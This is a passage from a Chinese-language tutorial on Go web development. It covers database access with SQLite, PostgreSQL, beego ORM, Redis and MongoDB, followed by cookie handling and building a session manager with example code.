SQLite 是一个开源的嵌入式关系数据库，实现自包容、零配置、支持事务的 SQL 数据库引擎。其特点是高度便携、使用方便、结构紧凑、高效、可靠。 与其他数据库管理系统不同，SQLite 的安装和运行非常简单，在大多数情况下,只要确保 SQLite 的二进制文件存在即可开始创建、连接和使用数据库。如果您正在寻找一个嵌入式数据库项目或解决方案，SQLite 是绝对值得考虑。SQLite 可以说是开源的 Access。 [SQLite 教程](https://www.runoob.com/sqlite/sqlite-create-database.html) 

#### SQLite 驱动

Go 支持 sqlite 的驱动也比较多，但是好多都是不支持 database/sql 接口的：

- https://github.com/mattn/go-sqlite3 支持 database/sql 接口，基于 cgo (关于 cgo 的知识请参看官方文档或后文) 写的
- https://github.com/feyeleanor/gosqlite3 不支持 database/sql 接口，基于 cgo 写的
- https://github.com/phf/go-sqlite3 不支持 database/sql 接口，基于 cgo 写的

目前支持 database/sql 的 SQLite 数据库驱动只有第一个，采用标准接口有利于以后出现更好的驱动的时候做迁移。

#### 示例

首先需要建表，跟 MySQL 示例的保持一致：

```sqlite
CREATE TABLE `userinfo` (
	`uid` INTEGER PRIMARY KEY AUTOINCREMENT,
	`username` VARCHAR(64) NULL,
	`department` VARCHAR(64) NULL,
	`created` DATE NULL
);

CREATE TABLE `userdetail` (
	`uid` INT(10) NULL,
	`intro` TEXT NULL,
	`profile` TEXT NULL,
	PRIMARY KEY (`uid`)
);
```

如下示例将示范如何使用 database/sql 接口对 SQLite 数据库表进行增删改查操作：

```go
db, err := sql.Open("sqlite3", "./sqlite_app/sqlite_db/sqlite_test.db")
defer db.Close()

//插入数据
stmt, err := db.Prepare("INSERT INTO userinfo(username, department, created) values(?,?,?)")
res, err := stmt.Exec("szy", "研发部门", "2019-07-10")
id, err := res.LastInsertId()

//更新数据
stmt, err = db.Prepare("update userinfo set username=? where uid=?")
res, err = stmt.Exec("szy_update", id)
affect, err := res.RowsAffected()

//查询数据
rows, err := db.Query("SELECT * FROM userinfo")
for rows.Next() {
  var uid int
  var username string
  var department string
  var created string
  err = rows.Scan(&uid, &username, &department, &created)
  checkErr(err)
  fmt.Println(uid)
  fmt.Println(username)
  fmt.Println(department)
  fmt.Println(created)
}

//删除数据
stmt, err = db.Prepare("delete from userinfo where uid=?")
res, err = stmt.Exec(1)
affect, err = res.RowsAffected()
```

我们可以看到上面的代码和 MySQL 示例中的代码几乎是一样的 (除了 Open 和 Prepare 的参数略有不同) 。


### d. 使用 PostgreSQL 数据库

PostgreSQL 是一个自由的对象-关系数据库服务器(数据库管理系统)，它在灵活的 BSD-风格许可证下发行。

#### PostgreSQL 驱动

Go 实现的支持 PostgreSQL 的驱动也很多，因为国外很多人在开发中使用了这个数据库，其中推荐使用 https://github.com/lib/pq，理由同上：支持 database/sql 驱动，纯 Go 写的，目前使用人数较多，Github 上比较活跃。

#### 示例

首先我们仍然创建两张表，与 MySQL 中的示例保持一致：

```plsql
CREATE TABLE userinfo
(
	uid serial NOT NULL,
	username character varying(100) NOT NULL,
	department character varying(500) NOT NULL,
	Created date,
	CONSTRAINT userinfo_pkey PRIMARY KEY (uid)
)
WITH (OIDS=FALSE);

CREATE TABLE userdetail
(
	uid integer,
	intro character varying(100),
	profile character varying(100)
)
WITH(OIDS=FALSE);
```

如下示例将示范如何使用 database/sql 接口对 PostgreSQL 数据库表进行增删改查操作：

```go
//创建数据库
db, err := sql.Open("postgres", "user=astaxie password=astaxie dbname=test sslmode=disable")
defer db.Close()

//插入数据
stmt, err := db.Prepare("INSERT INTO userinfo(username,department,created) VALUES($1,$2,$3) RETURNING uid")
res, err := stmt.Exec("szy", "研发部门", "2019-05-20")

//pg不支持这个函数，因为他没有类似MySQL的自增ID
// id, err := res.LastInsertId()

var lastInsertId int
err = db.QueryRow("INSERT INTO userinfo(username,departname,created) VALUES($1,$2,$3) returning uid;", "astaxie", "研发部门", "2012-12-09").Scan(&lastInsertId)
fmt.Println("最后插入id =", lastInsertId)

//更新数据
stmt, err = db.Prepare("update userinfo set username=$1 where uid=$2")
res, err = stmt.Exec("szy_update", 1)
affect, err := res.RowsAffected()

//查询数据
rows, err := db.Query("SELECT * FROM userinfo")
for rows.Next() {
  var uid int
  var username string
  var department string
  var created string
  err = rows.Scan(&uid, &username, &department, &created)
  fmt.Println(uid)
  fmt.Println(username)
  fmt.Println(department)
  fmt.Println(created)
}

//删除数据
stmt, err = db.Prepare("delete from userinfo where uid=$1")
res, err = stmt.Exec(1)
affect, err = res.RowsAffected()
```

从上面的代码我们可以看到，PostgreSQL 是通过 `$1`,`$2` 这种方式来指定要传递的参数，而不是 MySQL 中的 `?`，另外在 sql.Open 中的 dsn 信息的格式也与 MySQL 的驱动中的 dsn 格式不一样，所以在使用时请注意它们的差异。

还有 pg 不支持 LastInsertId 函数，因为 PostgreSQL 内部没有实现类似 MySQL 的自增ID返回，其他的代码几乎一模一样。


### e. 使用 Beego orm 库进行 ORM 开发

[beego orm](https://github.com/astaxie/beego) 是一个 Go 进行 ORM 操作的库，它采用了 Go style 方式对数据库进行操作，实现了 struct 到数据表记录的映射。beego orm 是一个十分轻量级的 Go ORM 框架，开发这个库的本意降低复杂的 ORM 学习曲线，尽可能在 ORM 的运行效率和功能之间寻求一个平衡，beego orm 是目前开源的 Go ORM 框架中实现比较完整的一个库，而且运行效率相当不错，功能也基本能满足需求。

beego orm 是支持 database/sql 标准接口的 ORM 库，所以理论上来说，只要数据库驱动支持 database/sql 接口就可以无缝的接入 beego orm。

#### Beego 安装与教程

* 安装

```go
go get -t -v github.com/astaxie/beego
```

* [官方文档](https://beego.me/docs/intro/)

#### Beego 初始化

首先你需要 import 相应的数据库驱动包、database/sq l标准接口包以 及beego orm 包，如下所示：

```go
import (
	"database/sql"
	"github.com/astaxie/beego/orm"
	_ "github.com/go-sql-driver/mysql"
)

func init() {
	//注册驱动
	orm.RegisterDriver("mysql", orm.DR_MySQL)
	//设置默认数据库
	orm.RegisterDataBase("default", "mysql", "root:root@/my_db?charset=utf8", 30)
	//注册定义的model
  orm.RegisterModel(new(User))
  // 创建table
  orm.RunSyncdb("default", false, true)
}
```

#### PostgreSQL 配置

```go
//导入驱动
// _ "github.com/lib/pq"

// 注册驱动
orm.RegisterDriver("postgres", orm.DR_Postgres) 

// 设置默认数据库
//PostgresQL用户：postgres ，密码：zxxx ， 数据库名称：test ， 数据库别名：default
orm.RegisterDataBase("default", "postgres", "user=postgres password=zxxx dbname=test host=127.0.0.1 port=5432 sslmode=disable")
```

#### MySQL 配置

```go
//导入驱动
//_ "github.com/go-sql-driver/mysql"

//注册驱动
orm.RegisterDriver("mysql", orm.DR_MySQL)

// 设置默认数据库
//mysql用户：root ，密码：zxxx ， 数据库名称：test ， 数据库别名：default
orm.RegisterDataBase("default", "mysql", "root:zxxx@/test?charset=utf8")
```

#### SQLite 配置

```go
//导入驱动
//_ "github.com/mattn/go-sqlite3"

//注册驱动
orm.RegisterDriver("sqlite", orm.DR_Sqlite)

// 设置默认数据库
//数据库存放位置：./datas/test.db ， 数据库别名：default
orm.RegisterDataBase("default", "sqlite3", "./datas/test.db")
```

#### 示例

导入必须的 package 之后,我们需要打开到数据库的链接，然后创建一个 beego orm 对象（以 MySQL 为例)，如下所示 beego orm：

```go
func main() {
    	o := orm.NewOrm()
}
```

简单示例：

```go
package main

import (
    "fmt"
    "github.com/astaxie/beego/orm"
    _ "github.com/go-sql-driver/mysql" // 导入数据库驱动
)

// Model Struct
type User struct {
    Id   int
    Name string `orm:"size(100)"`
}

func init() {
    // 设置默认数据库
    orm.RegisterDataBase("default", "mysql", "root:root@/my_db?charset=utf8", 30)

    // 注册定义的 model
    orm.RegisterModel(new(User))
    //RegisterModel 也可以同时注册多个 model
    //orm.RegisterModel(new(User), new(Profile), new(Post))

    // 创建 table
    orm.RunSyncdb("default", false, true)
}

func main() {
    o := orm.NewOrm()

    user := User{Name: "originName"}

    // 插入一条 user 记录
    id, err := o.Insert(&user)

    // 更新表
    user.Name = "newName"
    num, err := o.Update(&user)

    // 读取一条 user 记录
    u := User{Id: user.Id}
    err = o.Read(&u)

    // 删除一条 user 记录
    num, err = o.Delete(&u)
}
```

#### 常用操作

##### SetMaxIdleConns

根据数据库的别名，设置数据库的最大空闲连接：

```go
orm.SetMaxIdleConns("default", 30)
```

##### SetMaxOpenConns

根据数据库的别名，设置数据库的最大数据库连接 (go >= 1.2)：

```go
orm.SetMaxOpenConns("default", 30)
```

##### 打印调试

你可以通过如下的代码实现调试：

```go
orm.Debug = true
```

##### struct 约定配置

创建 struct 的一些约定配置：

```go
type Userinfo struct {
	Uid         int `orm:"PK"` //如果表的主键不是id，那么需要加上pk注释，显式的说这个字段是主键
	Username    string
	Departname  string
	Created     time.Time
}

type User struct {
	Uid         int `orm:"PK"` //如果表的主键不是id，那么需要加上pk注释，显式的说这个字段是主键
	Name        string
	Profile     *Profile   `orm:"rel(one)"` // OneToOne relation
	Post        []*Post `orm:"reverse(many)"` // 设置一对多的反向关系
}

type Profile struct {
	Id          int
	Age         int16
	User        *User   `orm:"reverse(one)"` // 设置一对一反向关系(可选)
}

type Post struct {
	Id    int
	Title string
	User  *User  `orm:"rel(fk)"`
	Tags  []*Tag `orm:"rel(m2m)"`    //设置一对多关系
}

type Tag struct {
	Id    int
	Name  string
	Posts []*Post `orm:"reverse(many)"`
}

func init() {
	// 需要在init中注册定义的model
	orm.RegisterModel(new(Userinfo),new(User), new(Profile), new(Post), new(Tag))
}
```

> 注意一点，beego orm 针对驼峰命名会自动帮你转化成下划线字段，例如你定义了 struct 名字为 `UserInfo`，那么转化成底层实现的时候是 `user_info`，字段命名也遵循该规则。

##### 插入数据

下面的代码演示了如何插入一条记录，可以看到我们操作的是 struct 对象，而不是原生的 sql 语句，最后通过调用 Insert 接口将数据保存到数据库。

```go
o := orm.NewOrm()
var user User
user.Name = "zxxx"
user.Departname = "zxxx"

id, err := o.Insert(&user)
if err == nil {
	fmt.Println(id)
}
```

我们看到插入之后 `user.Uid` 就是插入成功之后的自增ID。

同时插入多个对象可以使用 `InsertMulti` 方法：

```go
users := []User{
    {Name: "slene"},
    {Name: "astaxie"},
    {Name: "unknown"},
    ...
}
successNums, err := o.InsertMulti(100, users)
```

第一个参数 bulk 为并列插入的数量，第二个为对象的 slice，返回值为成功插入的数量。

类似 sql 语句：

```go
insert into table (name, age) values("slene", 28),("astaxie", 30),("unknown", 20)
```

##### 更新数据

继续上面的例子来演示更新操作，现在 user 的主键已经有值了，此时调用 Insert 接口，beego orm 内部会自动调用 update 以进行数据的更新而非插入操作。

```go
o := orm.NewOrm()
user := User{Uid: 1}
if o.Read(&user) == nil {
	user.Name = "MyName"
	if num, err := o.Update(&user); err == nil {
		fmt.Println(num)
	}
}
```

Update 默认更新所有的字段，可以更新指定的字段：

```go
// 只更新 Name
o.Update(&user, "Name")
// 指定多个字段
// o.Update(&user, "Field1", "Field2", ...)
```

Where: 用来设置条件，支持多个参数，第一个参数如果为整数，相当于调用了Where ("主键=?", 值)。

##### 查询数据

beego orm 的查询接口比较灵活，具体使用请看下面的例子。

例子1，根据主键获取数据：

```go
o := orm.NewOrm()
var user User

user := User{Id: 1}

err = o.Read(&user)

if err == orm.ErrNoRows {
	fmt.Println("查询不到")
} else if err == orm.ErrMissPK {
	fmt.Println("找不到主键")
} else {
	fmt.Println(user.Id, user.Name)
}
```

例子2：

```go
o := orm.NewOrm()
var user User

qs := o.QueryTable(user) // 返回 QuerySeter
qs.Filter("id", 1) // WHERE id = 1
qs.Filter("profile__age", 18) // WHERE profile.age = 18
```

例子3，WHERE IN 查询条件：

```go
qs.Filter("profile__age__in", 18, 20) 
// WHERE profile.age IN (18, 20)
```

例子4，更加复杂的条件：

```go
qs.Filter("profile__age__in", 18, 20).Exclude("profile__lt", 1000)
// WHERE profile.age IN (18, 20) AND NOT profile_id < 1000
```

可以通过如下接口获取多条数据，请看示例。

例子1，根据条件 age>17，获取 20 位置开始的 10 条数据的数据：

```go
var allusers []User
qs.Filter("profile__age__gt", 17)
// WHERE profile.age > 17
```

例子2，limit 默认从 10 开始，获取 10 条数据：

```go
qs.Limit(10, 20)
// LIMIT 10 OFFSET 20 注意跟SQL反过来的
```

##### 删除数据

beedb 提供了丰富的删除数据接口，请看下面的例子。

例子1，删除单条数据：

```go
o := orm.NewOrm()
if num, err := o.Delete(&User{Id: 1}); err == nil {
	fmt.Println(num)
}
```

Delete 操作会对反向关系进行操作，此例中 Post 拥有一个到 User 的外键。删除 User 的时候。如果 on_delete 设置为默认的级联操作，将删除对应的 Post 。

##### 关联数据

有些应用却需要用到连接查询，所以现在 beego orm 提供了一个简陋的实现方案：

```go
type Post struct {
	Id    int    `orm:"auto"`
	Title string `orm:"size(100)"`
	User  *User  `orm:"rel(fk)"`
}

var posts []*Post
qs := o.QueryTable("post")
num, err := qs.Filter("User__Name", "slene").All(&posts)
```

##### GroupBy 和 Having

针对有些应用需要用到 group by 的功能，beego orm 也提供了一个简陋的实现：

```go
qs.OrderBy("id", "-profile__age")
// ORDER BY id ASC, profile.age DESC

qs.OrderBy("-profile__age", "profile")
// ORDER BY profile.age DESC, profile_id ASC
```

* GroupBy：用来指定进行 group by 的字段

* Having：用来指定 having 执行的时候的条件

##### 使用原生 sql

简单示例：

```go
o := orm.NewOrm()
var r orm.RawSeter
r = o.Raw("UPDATE user SET name = ? WHERE name = ?", "testing", "slene")
```

复杂原生 sql 示例：

```go
func (m *User) Query(name string) user []User {
	var o orm.Ormer
	var rs orm.RawSeter
	o = orm.NewOrm()
	rs = o.Raw("SELECT * FROM user "+
		"WHERE name=? AND uid>10 "+
		"ORDER BY uid DESC "+
		"LIMIT 100", name)
	//var user []User
	num, err := rs.QueryRows(&user)
	if err != nil {
		fmt.Println(err)
	} else {
		fmt.Println(num)
		//return user
	}
	return
}	
```

#### 更多操作

参见 [Beego 官方使用教程](https://beego.me/)


### f. 使用 NOSQL 数据库

NoSQL (Not Only SQL)，指的是非关系型的数据库。随着 Web2.0 的兴起，传统的关系数据库在应付 Web2.0 网站，特别是超大规模和高并发的 SNS 类型的 Web2.0 纯动态网站已经显得力不从心，暴露了很多难以克服的问题，而非关系型的数据库则由于其本身的特点得到了非常迅速的发展。

而 Go 语言作为 21 世纪的 C 语言，对 NOSQL 的支持也是很好，目前流行的 NOSQL 主要有 redis、mongoDB、Cassandra 和 Membase 等。这些数据库都有高性能、高并发读写等特点，目前已经广泛应用于各种应用中。接下来主要讲解一下 redis 和 mongoDB 的操作。

另外可以了解下 [SQL 与 NOSQL的区别](https://www.jianshu.com/p/b32fe4fe45a3) 。

#### Redis

Redis 是一个开源 (BSD许可) ，内存存储的数据结构服务器，可用作数据库，高速缓存和消息队列代理。它支持 [字符串](https://www.redis.net.cn/tutorial/3508.html)、[哈希表](https://www.redis.net.cn/tutorial/3509.html)、[列表](https://www.redis.net.cn/tutorial/3510.html)、[集合](https://www.redis.net.cn/tutorial/3511.html)、[有序集合](https://www.redis.net.cn/tutorial/3512.html)，[位图](https://www.redis.net.cn/tutorial/3508.html)，[hyperloglogs ](https://www.redis.net.cn/tutorial/3513.html)等数据类型。内置复制、[Lua脚本](https://www.redis.net.cn/tutorial/3516.html)、LRU收回、[事务](https://www.redis.net.cn/tutorial/3515.html) 以及不同级别磁盘持久化功能，同时通过Redis Sentinel提供高可用，通过Redis Cluster提供自动 [分区](https://www.redis.net.cn/tutorial/3524.html)。

以下是 Redis 的一些学习渠道：

**Redis 的官方教程：**https://www.redis.net.cn/tutorial/3501.html

**Redis 命令参考1：**http://doc.redisfans.com/

**Redis 命令参考2：**http://redisdoc.com/string/set.html

Go 目前推荐的支持 Redis 的驱动主要有以下两个：

* https://github.com/go-redis/redis

* https://github.com/gomodule/redigo

这里将以 redigo 驱动为例来演示如何进行数据操作：

```go
package main

import (
	"fmt"
	"os"
	"os/signal"
	"syscall"
	"time"
	"github.com/garyburd/redigo/redis"
)

var (
	Pool *redis.Pool
)

func init() {
	redisHost := ":6379"
	Pool = newPool(redisHost)
	close()
}

func newPool(server string) *redis.Pool {
	return &redis.Pool{
		MaxIdle:     3,
		IdleTimeout: 240 * time.Second,
		Dial: func() (redis.Conn, error) {
			c, err := redis.Dial("tcp", server)
			if err != nil {
				return nil, err
			}
			return c, err
		},
		TestOnBorrow: func(c redis.Conn, t time.Time) error {
			_, err := c.Do("PING")
			return err
		}
	}
}

func close() {
	c := make(chan os.Signal, 1)
	signal.Notify(c, os.Interrupt)
	signal.Notify(c, syscall.SIGTERM)
	signal.Notify(c, syscall.SIGKILL)
	go func() {
		<-c
		Pool.Close()
		os.Exit(0)
	}()
}

func Get(key string) ([]byte, error) {
	conn := Pool.Get()
	defer conn.Close()

	var data []byte
	data, err := redis.Bytes(conn.Do("GET", key))
	if err != nil {
		return data, fmt.Errorf("error get key %s: %v", key, err)
	}
	return data, err
}

func main() {
	test, err := Get("test")
	fmt.Println(test, err)
}
```

附上 redigo 的详细教程：[redigo 官方教程文档](https://godoc.org/github.com/gomodule/redigo/redis)

#### mongoDB

MongoDB 是一个高性能，开源，无模式的文档型数据库，是一个介于关系数据库和非关系数据库之间的产品，是非关系数据库当中功能最丰富，最像关系数据库的。他支持的数据结构非常松散，采用的是类似 json 的 bjson 格式来存储数据，因此可以存储比较复杂的数据类型。Mongo 最大的特点是他支持的查询语言非常强大，其语法有点类似于面向对象的查询语言，几乎可以实现类似关系数据库单表查询的绝大部分功能，而且还支持对数据建立索引。

下图展示了 mysql 和 mongoDB 之间的对应关系，我们可以看出来非常的方便，但是 mongoDB 的性能非常好。



目前 Go 支持 mongoDB 最好的驱动就是 [mgo ](https://github.com/go-mgo/mgo)，具体教程可以参照 [这里](https://studygolang.com/articles/3485) 。

安装 mgo:

```
go get gopkg.in/mgo.v2
```

下面我将演示如何通过 Go 来操作 mongoDB：

```go
package main

import (
	"fmt"
	"log"
	"gopkg.in/mgo.v2"
	"gopkg.in/mgo.v2/bson"
)

type Person struct {
	Name  string
	Phone string
}

func main() {
	session, err := mgo.Dial("server1.example.com,server2.example.com")
	if err != nil {
		panic(err)
	}
	defer session.Close()

	// Optional. Switch the session to a monotonic behavior.
	session.SetMode(mgo.Monotonic, true)

	c := session.DB("test").C("people")
	err = c.Insert(&Person{"Ale", "+55 53 8116 9639"},
		&Person{"Cla", "+55 53 8402 8510"})
	if err != nil {
		log.Fatal(err)
	}

	result := Person{}
	err = c.Find(bson.M{"name": "Ale"}).One(&result)
	if err != nil {
		log.Fatal(err)
	}

	fmt.Println("Phone:", result.Phone)
}
```

我们可以看出来 mgo 的操作方式和 beego 的操作方式几乎类似，都是基于 struct 的操作方式，这个就是 Go Style 。


## *7. session 与数据存储*

Web 开发中一个很重要的议题就是如何做好用户的整个浏览过程的控制，因为 HTTP 协议是无状态的，所以用户的每一次请求都是无状态的，我们不知道在整个 Web 操作过程中哪些连接与该用户有关，我们应该如何来解决这个问题呢？

Web 里面经典的解决方案是 cookie 和 session，cookie 机制是一种客户端机制，把用户数据保存在客户端，而session 机制是一种服务器端的机制，服务器使用一种类似于散列表的结构来保存信息，每一个网站访客都会被分配给一个唯一的标志符,即 sessionID，它的存放形式无非两种:要么经过 url 传递，要么保存在客户端的 cookies 里。当然，你也可以将 session 保存到数据库里，这样会更安全，但效率方面会有所下降。

### a. session 和 cookie

cookie，简而言之就是在本地计算机保存一些用户操作的历史信息（当然包括登录信息），并在用户再次访问该站点时浏览器通过 HTTP 协议将本地 cookie 内容发送给服务器，从而完成验证，或继续上一步操作。

[](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/images/6.1.cookie2.png?raw=true)

session，简而言之就是在服务器上保存用户操作的历史信息。服务器使用 session id 来标识 session，session id 由服务器负责产生，保证随机性与唯一性，相当于一个随机密钥，避免在握手或传输中暴露用户真实密码。但该方式下，仍然需要将发送请求的客户端与 session 进行对应，所以可以借助 cookie 机制来获取客户端的标识（即 session id），也可以通过 GET 方式将 id 提交给服务器。

[](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/images/6.1.session.png?raw=true)

#### cookie

Cookie 是由浏览器维持的，存储在客户端的一小段文本信息，伴随着用户请求和页面在 Web 服务器和浏览器之间传递。用户每次访问站点时，Web 应用程序都可以读取 cookie 包含的信息。浏览器设置里面有 cookie 隐私数据选项，打开它，可以看到很多已访问网站的 cookies，如下图所示：


cookie 是有时间限制的，根据生命期不同分成两种：会话 cookie 和持久 cookie 。

如果不设置过期时间，则表示这个 cookie 的生命周期为从创建到浏览器关闭为止，只要关闭浏览器窗口，cookie 就消失了。这种生命期为浏览会话期的 cookie 被称为会话 cookie。会话 cookie 一般不保存在硬盘上而是保存在内存里。

如果设置了过期时间 (setMaxAge (60*60*24) )，浏览器就会把 cookie 保存到硬盘上，关闭后再次打开浏览器，这些 cookie 依然有效直到超过设定的过期时间。存储在硬盘上的 cookie 可以在不同的浏览器进程间共享，比如两个 IE 窗口。而对于保存在内存的 cookie，不同的浏览器有不同的处理方式。

##### Go 设置 cookie

Go 语言中通过 net/http 包中的 SetCookie 来设置：

```go
http.SetCookie(w ResponseWriter, cookie *Cookie)
```

w 表示需要写入的 response，cookie 是一个 struct，让我们来看一下 cookie 对象是怎么样的：

```go
type Cookie struct {
	Name       string
	Value      string
	Path       string
	Domain     string
	Expires    time.Time
	RawExpires string
// MaxAge=0 means no 'Max-Age' attribute specified.
// MaxAge<0 means delete cookie now, equivalently 'Max-Age: 0'
// MaxAge>0 means Max-Age attribute present and given in seconds
	MaxAge   int
	Secure   bool
	HttpOnly bool
	Raw      string
	Unparsed []string // Raw text of unparsed attribute-value pairs
}
```

我们来看一个例子，如何设置 cookie：

```go
expiration := time.Now()
expiration = expiration.AddDate(1, 0, 0)
cookie := http.Cookie{Name: "username", Value: "astaxie", Expires: expiration}
http.SetCookie(w, &cookie)
```

##### Go 读取 cookie

上面的例子演示了如何设置 cookie 数据，我们这里来演示一下如何读取 cookie：

```go
func someClientRequestHandler(w http.ResponseWriter, r *http.Request) {...}
```

```go
cookie, _ := r.Cookie("username")
fmt.Fprint(w, cookie)
```

还有另外一种读取方式：

```go
for _, cookie := range r.Cookies() {
	fmt.Fprint(w, cookie.Name)
}
```

可以看到通过 request 获取 cookie 非常方便。

#### session

session 机制是一种服务器端的机制，服务器使用一种类似于散列表的结构(也可能就是使用散列表)来保存信息。

但程序需要为某个客户端的请求创建一个 session 的时候，服务器首先检查这个客户端的请求里是否包含了一个session 标识－称为 session id，如果已经包含一个 session id 则说明以前已经为此客户创建过 session，服务器就按照 session id 把这个 session 检索出来使用(如果检索不到，可能会新建一个，这种情况可能出现在服务端已经删除了该用户对应的 session 对象，但用户人为地在请求的 URL 后面附加上一个 JSESSION 的参数)。如果客户请求不包含 session id，则为此客户创建一个 session 并且同时生成一个与此 session 相关联的 session id，这个 session id 将在本次响应中返回给客户端保存。

session 机制本身并不复杂，然而其实现和配置上的灵活性却使得具体情况复杂多变。这也要求我们不能把仅仅某一次的经验或者某一个浏览器，服务器的经验当作普遍适用的。

具体的 session 方案会在下文中解释。


### b. Go 的 session 管理

我们知道 session 是在服务器端实现的一种用户和服务器之间认证的解决方案，目前 Go 标准包没有为 session 提供任何支持，这小节我们将会自己动手来实现 go 版本的 session 管理和创建。

#### session 创建过程

session 的基本原理是由服务器为每个会话维护一份信息数据，客户端和服务端依靠一个全局唯一的标识来访问这份数据，以达到交互的目的。当用户访问 Web 应用时，服务端程序会随需要创建 session，这个过程可以概括为三个步骤：

- 生成全局唯一标识符 ( session id ) 
- 开辟数据存储空间。一般会在内存中创建相应的数据结构，但这种情况下，系统一旦断电，所有的会话数据就会丢失，如果是电子商务类网站，这将造成严重的后果。所以为了解决这类问题，你可以将会话数据写到文件里或存储在数据库中，当然这样会增加 I/O 开销，但是它可以实现某种程度的 session 持久化，也更有利于 session 的共享
- 将 session 的全局唯一标示符发送给客户端

以上三个步骤中，最关键的是如何发送这个 session 的唯一标识，即 session id。考虑到 HTTP 协议的定义，数据无非可以放到请求行、头域或 Body 里，所以一般来说会有两种常用的方式：cookie 和 URL 重写。

1. Cookie 服务端通过设置 Set-cookie 头就可以将 session 的标识符传送到客户端，而客户端此后的每一次请求都会带上这个标识符，另外一般包含 session 信息的 cookie 会将失效时间设置为 0 (会话 cookie)，即浏览器进程有效时间。至于浏览器怎么处理这个 0，每个浏览器都有自己的方案，但差别都不会太大(一般体现在新建浏览器窗口的时候) 。
2. URL 重写。所谓 URL 重写，就是在返回给用户的页面里的所有的 URL 后面追加 session 标识符，这样用户在收到响应之后，无论点击响应页面里的哪个链接或提交表单，都会自动带上 session 标识符，从而就实现了会话的保持。虽然这种做法比较麻烦，但是，如果客户端禁用了 cookie 的话，此种方案将会是首选。

#### 实现一个 session 管理器

下面我们将结合 session 的生命周期 ( lifecycle )，来实现 go 语言版本的 session 管理。

##### 设计思路

我们知道 session 管理涉及到如下几个因素：

- 全局 session 管理器
- 保证 session id 的全局唯一性
- 为每个客户关联一个 session
- session 的存储(可以存储到内存、文件、数据库等)
- session 过期处理

接下来我将讲解一下我关于 session 管理的整个设计思路以及相应的 go 代码示例：

##### sessionManager

定义一个全局的 session 管理器：

```go
type Manager struct {
	cookieName  string     // private cookiename
	lock        sync.Mutex // protects session
	provider    Provider
	maxLifeTime int64
}

func NewManager(provideName, cookieName string, maxLifeTime int64) (*Manager, error) {
	provider, ok := provides[provideName]
	if !ok {
		return nil, fmt.Errorf("session: unknown provide %q (forgotten import?)", provideName)
	}
	return &Manager{provider: provider, cookieName: cookieName, maxLifeTime: maxLifeTime}, nil
}
```

Go 实现整个的流程应该也是这样的，在 main 包中创建一个全局的 session 管理器：

我们知道 session 是保存在服务器端的数据，它可以以任何的方式存储，比如存储在内存、数据库或者文件中。因此我们抽象出一个 Provider 接口，用以表征 session 管理器底层存储结构。

```go
type Provider interface {
	SessionInit(sid string) (Session, error)
	SessionRead(sid string) (Session, error)
	SessionDestroy(sid string) error
	SessionGC(maxLifeTime int64)
}
```

- SessionInit 函数实现 Session 的初始化，操作成功则返回此新的 Session 变量
- SessionRead 函数返回 sid 所代表的 Session 变量，如果不存在，那么将以 sid 为参数调用 SessionInit 函数创建并返回一个新的 Session 变量
- SessionDestroy 函数用来销毁 sid 对应的 Session 变量
- SessionGC 根据 maxLifeTime 来删除过期的数据

那么 Session 接口需要实现什么样的功能呢？有过 Web 开发经验的读者知道，对 Session 的处理基本就 设置值、读取值、删除值以及获取当前 sessionID 这四个操作，所以我们的 Session 接口也就实现这四个操作。

```go
type Session interface {
	Set(key, value interface{}) error // set session value
	Get(key interface{}) interface{}  // get session value
	Delete(key interface{}) error     // delete session value
	SessionID() string                // back current sessionID
}
```

> 以上设计思路来源于 database/sql/driver，先定义好接口，然后具体的存储 session 的结构实现相应的接口并注册后，相应功能这样就可以使用了，以下是用来随需注册存储 session 的结构的 Register 函数的实现。

```go
var provides = make(map[string]Provider)

// Register makes a session provide available by the provided name.
// If Register is called twice with the same name or if driver is nil,
// it panics.
func Register(name string, provider Provider) {
	if provider == nil {
		panic("session: Register provider is nil")
	}
	if _, dup := provides[name]; dup {
		panic("session: Register called twice for provider " + name)
	}
	provides[name] = provider
}
```

##### 全局唯一的 Session ID

Session ID 是用来识别访问 Web 应用的每一个用户，因此必须保证它是全局唯一的 (GUID) ，下面代码展示了如何满足这一需求：

```go
func (manager *Manager) sessionId() string {
	b := make([]byte, 32)
	if _, err := rand.Read(b); err != nil {
		return ""
	}
	return base64.URLEncoding.EncodeToString(b)
}
```

##### session 创建

我们需要为每个来访用户分配或获取与他相关连的 Session，以便后面根据 Session 信息来验证操作。SessionStart 这个函数就是用来检测是否已经有某个 Session 与当前来访用户发生了关联，如果没有则创建之。

```go
func (manager *Manager) SessionStart(w http.ResponseWriter, r *http.Request) (session Session) {
	manager.lock.Lock()
	defer manager.lock.Unlock()
	cookie, err := r.Cookie(manager.cookieName)
	if err != nil || cookie.Value == "" {
    //如果客户端的 cookie 为空，则新创建一个 session ID
		sid := manager.sessionId()
    //通过 session ID 去创建一个新的 session 
		session, _ = manager.provider.SessionInit(sid)
    //创建一个新的包含 session ID 的 cookie
		cookie := http.Cookie{Name: manager.cookieName, Value: url.QueryEscape(sid), Path: "/", HttpOnly: true, MaxAge: int(manager.maxLifeTime)}
    //通过 http.ResponseWriter 写入到返回客户端的响应中
		http.SetCookie(w, &cookie)
	} else {
    //如果客户端的请求中包含 cookie，则直接获取对应的 session
		sid, _ := url.QueryUnescape(cookie.Value)
		session, _ = manager.provider.SessionRead(sid)
	}
	return
}
```

我们用前面 login 操作来演示 session 的运用：

```go
func login(w http.ResponseWriter, r *http.Request) {
	sess := globalSessions.SessionStart(w, r)
	r.ParseForm()
	if r.Method == "GET" {
		t, _ := template.ParseFiles("login.gtpl")
		w.Header().Set("Content-Type", "text/html")
		t.Execute(w, sess.Get("username"))
	} else {
    //登录成功，重定向跳转到首页
		sess.Set("username", r.Form["username"])
		http.Redirect(w, r, "/", 302)
	}
}
```

##### session 值操作与重置

SessionStart 函数返回的是一个满足 Session 接口的变量，那么我们该如何用他来对 session 数据进行操作呢？

上面的例子中的代码 `session.Get("uid")` 已经展示了基本的读取数据的操作，现在我们再来看一下详细的操作：

```go
func count(w http.ResponseWriter, r *http.Request) {
  //首先获取对应的 session，没有就创建
	session := globalSessions.SessionStart(w, r)
  //获取 session 的创建时间
	createtime := session.Get("createtime")
	if createtime == nil {
    //如果创建时间为空，就设置为当前的时间
		session.Set("createtime", time.Now().Unix())
	} else if (createtime.(int64) + 360) < (time.Now().Unix()) {
    //如果距离创建的时间超过一定的阈值，就销毁当前的 session，重新获取一个新的 session 代替，完成 session 的重置，这样可以预防 session 的劫持
		globalSessions.SessionDestroy(w, r)
		session = globalSessions.SessionStart(w, r)
	}
